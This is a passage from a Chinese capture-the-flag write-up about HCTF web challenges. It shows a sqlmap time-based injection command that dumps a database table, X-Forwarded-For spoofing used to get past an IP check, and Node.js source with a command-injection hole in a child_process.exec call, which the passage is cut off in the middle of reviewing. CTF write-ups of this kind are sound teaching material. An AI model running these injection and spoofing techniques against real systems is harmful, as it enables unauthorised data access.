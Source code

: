 然后开始dump `log` 表的数据：

    sqlmap -v 3 --technique=T -u "http://121.41.37.11:25045/img.php?file=*%231.jpg" --level=5 --threads=10 -D t2_db -T log -C param,type --dump

得到我们所需的数据：

    Database: t2_db
    Table: log
    [3 entries]
    +-------+----------+
    | param | type     |
    +-------+----------+
    | user  | A1rB4s1C |
    | user  | guest    |
    | user  | V1ew     |
    +-------+----------+

然后修改 `X-Forwarded-For` 来让自己ip变为程序认为是合法的地址（218.75.123.186）去访问如下url：

    http://121.41.37.11:25045/get.php?user=A1rB4s1C

flag：`hctf{Why_are_U_S0_DIA0?????}`

## opensource（300pt）

一开始各种google，baidu源码，发现了有 `.git` 目录。后来队友发现wooyun上有个案例：[友盟网git服务使用不当导致源代码泄露](http://wooyun.org/bugs/wooyun-2010-076372)

根据这个案例提供的方法把 `art-cli` 的源码down到本地进行审计。

然后在 `/app.js` 中发现了另一个根目录：

```javascript
    ...
    app.use(favicon());
    app.use(logger('dev'));
    app.use(bodyParser.json());
    app.use(bodyParser.urlencoded());
    app.use(cookieParser());

    app.use('/', routes);
    app.use('/ac6555bfe23f5fe7e98fdcc0cd5f2451', pangci);

    /// catch 404 and forwarding to error handler
    ...
```

然后看程序对 `/ac6555bfe23f5fe7e98fdcc0cd5f2451` 路径的处理函数，对应文件 `/routes/pangci.js`：

```javascript
var express = require('express');
var router = express.Router();
var fs = require('fs');
var path = require('path');
var cp = require('child_process');

router.get('/', function(req, res) {
  var data = path.normalize('/tmp/flag');

  if (req.param('pangci')) {
    cp.exec(secure(req.param('pangci')) + ' ' + data, function (err, stdout, stderr) {
      if (err) { res.end('Ohhhhh MY SWEET!!!YOOOOOO HURT ME!!') }
      var limit = stdout.split('\n').slice(0, 5).join('\n');
      res.end(limit);
    });
```